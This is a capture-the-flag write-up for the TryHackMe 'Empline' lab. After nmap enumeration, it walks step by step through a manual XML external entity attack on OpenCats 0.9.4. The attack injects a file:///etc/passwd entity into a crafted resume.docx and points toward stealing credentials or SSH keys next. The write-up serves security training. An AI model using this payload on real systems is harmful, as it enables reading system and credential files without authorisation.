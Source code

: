 ```yaml
---
layout: default
title : muzec - Haclabs NoName Writeup
---
```



### Enumeration With Nmap

We always start with an nmap scan.....

```Nmap -sC -sV -oA empline.txt <Target-IP>```


```
┌──(muzec㉿Muzec-Security)-[~/Documents/TryHackMe/empline]
└─$ nmap -sC -sV -oA empline.txt 10.10.46.229
Starting Nmap 7.91 ( https://nmap.org ) at 2021-09-22 15:38 WAT
Nmap scan report for 10.10.46.229
Host is up (0.20s latency).
Not shown: 997 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c0:d5:41:ee:a4:d0:83:0c:97:0d:75:cc:7b:10:7f:76 (RSA)
|   256 83:82:f9:69:19:7d:0d:5c:53:65:d5:54:f6:45:db:74 (ECDSA)
|_  256 4f:91:3e:8b:69:69:09:70:0e:82:26:28:5c:84:71:c9 (ED25519)
80/tcp   open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Empline
3306/tcp open  mysql   MySQL 5.5.5-10.1.48-MariaDB-0ubuntu0.18.04.1
| mysql-info: 
|   Protocol: 10
|   Version: 5.5.5-10.1.48-MariaDB-0ubuntu0.18.04.1
|   Thread ID: 87
|   Capabilities flags: 63487
|   Some Capabilities: FoundRows, ConnectWithDatabase, DontAllowDatabaseTableColumn, Support41Auth, Speaks41ProtocolOld, IgnoreSpaceBeforeParenthesis, ODBCClient, SupportsTransactions, IgnoreSigpipes, LongColumnFlag, InteractiveClient, LongPassword, Speaks41ProtocolNew, SupportsCompression, SupportsLoadDataLocal, SupportsMultipleStatments, SupportsAuthPlugins, SupportsMultipleResults
|   Status: Autocommit
|   Salt: X<c](O5YD(8#BdPDEkl\
|_  Auth Plugin Name: mysql_native_password
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 50.17 seconds
```

Hello TryHackMe folks damn it been long i know so let hit on a new machine empline release probably last week i guess we have our scan result ready and seems we are having 3 open ports 22,80 and 3306 interesting right?? let start our enumeration with port 80.


![image](https://user-images.githubusercontent.com/69868171/134394687-48cccdf2-9186-488d-9755-5eb91281fcf4.png)

A nice webpage i will say seems we have some pages let check it out, Going through the pages i found a subdomain on the `Employment` page `job.empline.thm` let try to add it our hosts file on our attacking machine.

![image](https://user-images.githubusercontent.com/69868171/134395433-847cd031-405f-4aa2-9696-da9901fa9560.png)

Accessing `http://job.empline.thm/` we are presented with a login page which is powered by opencats.

![image](https://user-images.githubusercontent.com/69868171/134395656-b352565f-780d-42a8-81bd-01072ecd7d2e.png)

What i always check first is version always version and guess what?? opencats is running Version 0.9.4 so i quickly hit google to check if it vulnerable.

![image](https://user-images.githubusercontent.com/69868171/134396268-eeb1d15e-b09b-4b59-a83a-8ff5d456b129.png)

And i found out OpenCats 0.9.4-2  is vulnerable to 'docx ' XML External Entity Injection (XXE). We also have the exploit written in python on exploit-db but what is the fun without trying it manually why run an exploit when we can learn more from doing it manually.

### EXPLOITING THE OPENCATS 0.9.4

![image](https://user-images.githubusercontent.com/69868171/134396940-cf162209-8928-4c95-94c4-3cf7f4f4a830.png)

```
URL:- http://job.empline.thm/careers/
```

Now let click on ` current opening positions` .

![image](https://user-images.githubusercontent.com/69868171/134397180-0b172e99-d73c-4093-8322-355ada98a2f1.png)

Next:- Now click on `Mobile Dev` .

![image](https://user-images.githubusercontent.com/69868171/134397305-1964261f-fe46-47a1-ae9e-e6f4075eabc5.png)


Next:- Now Click on `Apply To Postion` .


![image](https://user-images.githubusercontent.com/69868171/134397581-8b878a69-7880-4bbd-b9bf-ce81017a80c7.png)

Now the fun part begin let create a file called `cv.py` with the python code below;- 

```
from docx import Document
document = Document()
paragraph = document.add_paragraph("Muzec")
document.save("resume.docx")
```
Now let Run the cv.py a resume.docx file has been created. Unzip the resume.docx.

![image](https://user-images.githubusercontent.com/69868171/134402779-894f1fc6-5a68-4005-b5fc-62a253ce7d75.png)


cd (change directory) to word/ use your nano editor and open document.xml.

![image](https://user-images.githubusercontent.com/69868171/134402914-e89172a9-3988-4d21-826b-d47cee688c35.png)


After the first line where <?xml starts, embed the following: `<!DOCTYPE test [<!ENTITY test SYSTEM 'file:///etc/passwd'>]>` .

![image](https://user-images.githubusercontent.com/69868171/134403145-491c89fe-bec0-4854-87ef-39a4eb806f19.png)


Now let find where our name is written in the document.xml. The code will look something like this:

```
<w:body><w:p><w:r><w:t>YOUR_NAME</w:t></w:r 
```

![image](https://user-images.githubusercontent.com/69868171/134403613-c61401f7-51d5-431d-a8d2-5721073cb6be.png)


Now let remove our name and write `"&test;"`. It will look like this:

![image](https://user-images.githubusercontent.com/69868171/134403929-c353c545-c0da-4c9e-ba29-c6b9c3144496.png)


Let Save the file and exit. Go out of the word/ directory and zip our resume.docx back with document.xml using this command `zip resume.docx word/document.xml` . 

![image](https://user-images.githubusercontent.com/69868171/134404176-5d60f1aa-b7fa-460f-94d0-7302cf13d0cc.png)

Now back to our target let upload the `resume.docx` .

![image](https://user-images.githubusercontent.com/69868171/134404339-c0e5a94c-4eb8-4203-84aa-ba1a08d53dfd.png)

Boom and the contents of `/etc/passwd` is presented to you in the input field. Now what is next is try to find a config file to read using the XML injection  yes credentials credentials or a private key for SSH is the main thing.

